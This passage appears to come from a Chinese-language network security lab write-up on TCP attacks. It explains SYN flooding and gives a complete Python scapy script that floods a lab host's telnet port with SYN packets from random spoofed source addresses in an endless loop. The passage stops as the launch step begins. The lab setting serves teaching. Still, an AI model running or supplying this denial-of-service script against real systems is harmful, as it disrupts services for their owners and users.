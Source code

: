 


## Task 1: SYN Flooding Attack

SYN 泛洪是 DoS 攻击的一种形式，攻击者向受害者的 TCP 端口发送许多 SYN 请求，但攻击者无意完成 3 次握手过程。攻击者要么使用欺骗性的 IP 地址，要么不继续该过程。通过这种攻击，攻击者可以淹没受害者的队列。

![syn-flood](../image/syn-flood.png)

### Task 1.1: Launching the Attack Using Python

编写 `syn-flood.py`：

```python
#!/bin/env python3

from scapy.all import IP, TCP, send
from ipaddress import IPv4Address          
from random import getrandbits

target_ip = "10.9.0.5"
ip = IP(dst=target_ip)           # 创建一个IP层对象，目标地址（dst）设为10.9.0.5
tcp = TCP(dport=23, flags='S')    # 创建一个TCP层对象，目标端口（dport）设为23，并设置SYN标志
pkt = ip/tcp                      # 将IP层和TCP层组合成一个完整的数据包

print("开始syn泛洪攻击...")
while True:
    pkt[IP].src = str(IPv4Address(getrandbits(32)))       # 设置数据包的源IP地址为随机生成的IPv4地址
    pkt[TCP].sport = getrandbits(16)                      # 设置数据包的源端口为随机生成的16位整数
    pkt[TCP].seq = getrandbits(32)                        # 设置数据包的序列号为随机生成的32位整数
    send(pkt, verbose=0)                                  # 发送数据包，将verbose参数设为0以避免输出发送日志
    print(f"syn泛洪攻击中...攻击目标 {target_ip}")
```

在 $attacker$ 上启动针对 $victim$ 泛洪攻击：

